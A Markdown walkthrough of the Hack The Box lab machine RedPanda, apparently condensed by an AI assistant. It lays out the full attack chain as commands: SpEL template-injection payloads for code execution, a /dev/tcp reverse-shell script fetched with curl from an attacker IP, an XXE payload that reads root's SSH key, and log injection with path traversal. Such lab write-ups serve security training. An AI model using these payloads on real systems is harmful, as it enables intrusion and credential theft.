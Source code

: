 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

## 🔍 Recon

### Nmap Full Scan
```bash
nmap -p- --min-rate 10000 10.10.11.170
nmap -p 22,8080 -sCV 10.10.11.170
```

### Add to Hosts File
```bash
echo "10.10.11.170 redpanda.htb" | sudo tee -a /etc/hosts
```

### [Feroxbuster](HTTP.md) for Paths
```bash
feroxbuster -u http://10.10.11.170:8080 -x java,class
```

---

## 🧠 SSTI Foothold

### Fuzz for Banned Characters
```bash
wfuzz -u http://10.10.11.170:8080/search -d name=FUZZ \
-w /usr/share/seclists/Fuzzing/alphanum-case-extra.txt --ss banned
```

### Valid Payload Examples
```text
*{7*7}
@{7*7}
#{7*7}
```

### RCE via SSTI (in search box)
```text
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}
```

---

## 🐚 Reverse Shell (via SSTI)

### Reverse Shell Payload Script (host locally)
```bash
# /var/www/html/shell.sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.6/443 0>&1
```

### Drop the shell
```http
*{T(java.lang.Runtime).getRuntime().exec('curl 10.10.14.6/shell.sh -o /tmp/shell.sh')}
*{T(java.lang.Runtime).getRuntime().exec('bash /tmp/shell.sh')}
```

### Catch Reverse Shell
```bash
nc -lvnp 443
script /dev/null -c bash  # for upgrade
```

---

## 🔐 Enumeration

### Confirm Group for PrivEsc Path
```bash
id
```

### Check Files Owned by `logs` Group
```bash
find / -group logs 2>/dev/null | grep -v -e '^/proc' -e '\.m2' -e '^/tmp/'
```

---

## 🔍 Analyze Applications

### Interesting Paths
```bash
/opt/panda_search/
/opt/credit-score/
/credits/
/opt/panda_search/redpanda.log
```

### Note: Web creds (from source)
```bash
user: woodenk
pass: RedPandazRule
```

---

## ⚙️ Root Shell via XXE Chain

### 1. Create Malicious XML (`0xdf_creds.xml`)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY foo SYSTEM 'file:///root/.ssh/id_rsa'>
]>
<credits>
  <author>0xdf</author>
  <image>
    <uri>/img/panda.jpg</uri>
    <views>0</views>
    <root>&foo;</root>
  </image>
  <totalviews>1</totalviews>
</credits>
```

### 2. Tag Image with Metadata (JPG Artist Field)
```bash
cp image.jpg 0xdf.jpg
exiftool -Artist="../tmp/0xdf" 0xdf.jpg
```

### 3. Upload Malicious Files to `/tmp/`
```bash
scp 0xdf.jpg 0xdf_creds.xml woodenk@10.10.11.170:/tmp/
```

### 4. Inject Fake Log Line
```bash
echo "412||ip||ua||/../../../../../../tmp/0xdf.jpg" >> /opt/panda_search/redpanda.log
```

### 5. Wait for Cronjob (~2 mins)

### 6. Extract SSH Key from XML
```bash
cat /tmp/0xdf_creds.xml
```

---

## 🗝️ [SSH](SSH) as Root

### Save and Use Key
```bash
chmod 600 ~/keys/redpanda-root
ssh -i ~/keys/redpanda-root root@10.10.11.170
```

---

## 🎓 Beyond Root: Group Discrepancy

### Web Shell (via SSTI)
```bash
id  # groups: logs, woodenk
```

### SSH Login
```bash
id  # groups: woodenk
```

### Reason
- Java web app started as:
  ```bash
  sudo -u woodenk -g logs java -jar ...
  ```
- SSTI shell inherits logs group
- SSH session doesn’t

---

Let me know if you'd like this wrapped into a Markdown file or Notion-friendly version! 🧩